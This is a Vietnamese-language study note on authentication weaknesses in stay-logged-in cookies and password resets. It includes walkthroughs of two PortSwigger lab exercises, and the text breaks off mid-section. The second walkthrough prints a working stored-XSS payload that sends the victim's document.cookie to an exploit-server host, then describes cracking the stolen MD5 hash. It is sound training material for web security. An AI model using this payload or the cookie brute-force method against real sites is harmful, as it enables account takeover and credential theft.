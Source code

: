 ![image](https://github.com/user-attachments/assets/9cbad819-daa6-49d4-ab0a-0d158dcb0feb)I. Lý thuyết<br>
- ngoài chức năng login cơ bản, hầu hết web đều cung cấp chức năng bổ sung để user quản lý acc của họ
- VD: user can thay đổi hoặc đặt lại password khi quên
- -> các cơ chế này can tạo ra lỗ hổng mà attacker can khai thác
- web thg cẩn thận để tránh các lỗ hổng phổ biến trong trang login của họ, nhưng bn cần thực hiện các bc tương tự để đảm bảo rằng các chức năng liên quan cũng mạnh mẽ như nhau
- này là đặc bt quan trọng khi mà attacker can tạo acc của riêng họ và do đó can truy cập để nghiên cứu các trang bổ sung này<br>

II. Keeping users logged in<br>
1. Lý thuyết<br>
- 1 tính năng phổ biến là tùy chọn duy trì trạng thái login kể cả sau khi đóng phiên browser
- nó thường là hộp kiểm đc gắn nhãn như "Remember me" or "Keep me logged in"
- chức năng này đc triển khai bằng cách tạo 1 loại mã thông báo remember me đc lưu trữ trong 1 cookie liên tục
- có đc cookie này -> can bỏ qua toàn bộ quá trình login -> cách tốt nhất là ko thể đoán đc cookie này
- tuy nhiên nh web tạo cookie này dựa trên sự kết hợp can đoán của các giá trị tĩnh như username và dấu time, thậm chí còn xài password như 1 phần của cookie 
- cách tiếp cận này vô cùng nguy hiểm nếu attacker can tạo tài khoản của mình -> nghiên cứu cookie của mình -> đoán cách cookie được tạo
- sau khi đoán đc công thức, attacker brute-force cookie của các ng dùng khác và lấy quyền truy cập vào acc của họ
- một vài web cho rằng nếu cookie đc mã hóa thì sẽ ko thể đoán cho dù nó đc tạo từ giá trị tĩnh
- điều này can đúng nếu đc thực hiện chính xác và xài mã hóa phức tạp, ngay cả xài mã hóa như hàm băm 1 chiều cx ko hoàn toàn an toàn
- nếu attacker can dễ dàng đoán đc thuật toán băm và salt ko đc xài thì chúng can tấn công cookie bằng cách băm wordlist của họ
- phương pháp này can đc xài để vượt qua lim số lần login nếu chúng ko đc xài cho việc đoán cookie
- kể cả attacker ko thể tự tạo acc họ vẫn có thể khai thác lỗ hổng này
- bằng kĩ thuật thông thường như XSS, attacker can đánh cắp cookie của acc khác và suy ra cách cookie đc tạo
- nếu web đc xây dựng bằng framework nguồn mở thì chi tiết chính về c.trúc cookie can đc ghi lại công khai
- trong 1 số trh hiếm hoi can lấy đc password từ cookie
- các phiên bản băm của list password phổ biến có sẵn trực tuyến -> nếu pasword của user có ở 1 trong các list -> giải mã đơn giản
- -> salt rất quan trọng trong mã hóa hiệu quả<br>

2. Lab: Brute-forcing a stay-logged-in cookie<br>
This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.<br>

Your credentials: wiener:peter<br>
Victim's username: carlos<br>
Candidate passwords: https://portswigger.net/web-security/authentication/auth-lab-passwords<br>

3. Giải<br>
- B1: login tài khoản đc cung cấp và duy trì trạng thái login của acc -> thu được phiên: d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw<br>

![image](https://github.com/user-attachments/assets/f31fd1dd-65c6-4a81-a459-a0183776f833)<br>

- B2: giải mã đoạn mã thu được: wiener:51dc30ddc473d43a6011e9ebba6ca770 -> chuỗi sau dấu ':' là được băm<br>

![image](https://github.com/user-attachments/assets/4af87c04-1fd5-4791-a923-062d9edc5aa9)<br>

- B3: logout acc đẻ thu request -> dùng cho tấn công<br>

![image](https://github.com/user-attachments/assets/4d44d526-cc2c-4783-99d9-db5ad583cf13)<br>

- B4: test thử tấn công với acc được cho<br>

![image](https://github.com/user-attachments/assets/774aec88-f917-4929-8144-21326a33433e)<br>

![image](https://github.com/user-attachments/assets/8c14efd3-0cb6-48ad-b241-58e91239e7a1)<br>

- B5: tấn công -> lấy phản hồi 302 -> show response in browser -> login<br>

![image](https://github.com/user-attachments/assets/a8fc50d6-e0ff-4309-9c2c-ac5246fea631)<br>

- B6: brute-force xài cú pháp của phiên và băm list password -> login đc sẽ có phản hồi: Update email -> dùng để lọc<br>

![image](https://github.com/user-attachments/assets/d8a4dd1e-f2a6-45e3-ac86-15529541ff59)<br>

![image](https://github.com/user-attachments/assets/225d9579-14ce-46fe-b453-507c8e4d6832)<br>

- B7: lấy phản hồi -> login<br>

![image](https://github.com/user-attachments/assets/66ba1fe7-aa6b-46d8-af11-2a40b17f7534)<br>

4. Lab: Offline password cracking<br>
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.<br>

Your credentials: wiener:peter<br>
Victim's username: carlos<br>

5. Giải<br>
- B1: login vào acc đc cho và thu đc<br>

![image](https://github.com/user-attachments/assets/b9318590-e6b9-41b5-a38a-757dd7a5ade8)<br>

- B2: phân tích cấu trúc session: d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
- -> đoạn mã đc mã hóa base64 và băm md5<br>

![image](https://github.com/user-attachments/assets/25f8a61f-a0e2-4c44-9e1f-c11b29ca8d94)<br>

- B4: thử attack với acc đã cho -> xác định đc cấu trúc password (trong hình)<br>

![image](https://github.com/user-attachments/assets/b56c127c-2c29-4557-8315-3084d4386dc5)<br>

- B5: đến 1 blog và đăng 1 cmt có payload XSS: <script>document.location='//exploit-0a5d006c041ce5ea81c2f11801b7004a.exploit-server.net/'+document.cookie</script><br>

![image](https://github.com/user-attachments/assets/96495326-2dee-45b0-87cc-12d90a33b749)<br>

![image](https://github.com/user-attachments/assets/e24b4e2c-3cff-4bb4-a950-650fde453bc2)<br>

- B5: thu kết quả <br>

![image](https://github.com/user-attachments/assets/5411d07c-9857-4f89-bc70-823547313281)<br>

- Giải mã session: Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz<br>

![image](https://github.com/user-attachments/assets/227e06af-0a76-45d7-aa46-295865442b8e)<br>

![image](https://github.com/user-attachments/assets/3b10e2f0-746f-474f-a2f5-89590b60c9c1)<br>

- tool crack: https://crackstation.net/<br>

III. Resetting user passwords<br>
1. Lý thuyết<br>
- sẽ có 1 số user quên password của họ -> có cách để họ lấy lại password
- trong trh này xác thực dựa trên password là ko thể thực hiện -> web phải dựa trên phương pháp thay thế đản đảm bảo user thực đang reset password của chính họ
- -> chức năng reset password vốn rất nguy hiểm và cần đc triển khai 1 cách an toàn
- có 1 số cách để triển khai tính năng này với mức độ vul khác nhau<br>
*. Sending passwords by email<br>
- 
